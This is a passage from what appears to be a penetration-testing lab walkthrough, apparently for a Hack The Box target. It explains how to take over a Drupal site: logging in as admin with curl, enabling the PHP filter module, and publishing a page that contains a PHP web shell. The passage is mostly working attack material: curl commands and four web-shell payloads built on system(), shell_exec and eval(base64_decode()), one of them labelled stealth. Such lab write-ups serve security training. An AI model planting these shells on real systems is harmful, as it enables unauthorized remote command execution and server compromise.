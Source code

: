 #### Step 1: Administrative Access Verification
```bash
# Verify admin access to target
curl -c cookies.txt -d "name=admin&pass=password&form_id=user_login" \
  "http://drupal-qa.inlanefreight.local/user/login"

# Check session establishment
curl -b cookies.txt "http://drupal-qa.inlanefreight.local/admin" | grep -i "administration"
```

#### Step 2: PHP Filter Module Activation
**Navigation Path:**
1. **Administration** → **Modules** (`/admin/modules`)
2. **Find "PHP filter" module** in Filter section
3. **Enable checkbox** next to "PHP filter"
4. **Save configuration** at bottom of page

**Manual Verification:**
```bash
# Check if PHP filter is enabled
curl -b cookies.txt "http://drupal-qa.inlanefreight.local/admin/modules" | grep -i "php filter"

# Look for enabled status
curl -b cookies.txt "http://drupal-qa.inlanefreight.local/admin/modules" | grep 'checked.*php'
```

#### Step 3: Malicious Content Creation
**Navigation Path:**
1. **Content** → **Add content** (`/node/add`)
2. **Basic page** (for static content creation)
3. **Title:** Any legitimate-sounding title
4. **Body:** PHP payload injection
5. **Text format:** **PHP code** (critical setting)

**PHP Payload Examples:**
```php
# Professional web shell (recommended)
<?php
if (isset($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']) && 
    $_SERVER['HTTP_USER_AGENT'] === 'HTB-Assessment') {
    system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
}
?>

# Simple command execution
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>

# Alternative with output formatting
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

# Stealth version with base64
<?php
if (isset($_GET['data'])) {
    eval(base64_decode($_GET['data']));
}
?>
```
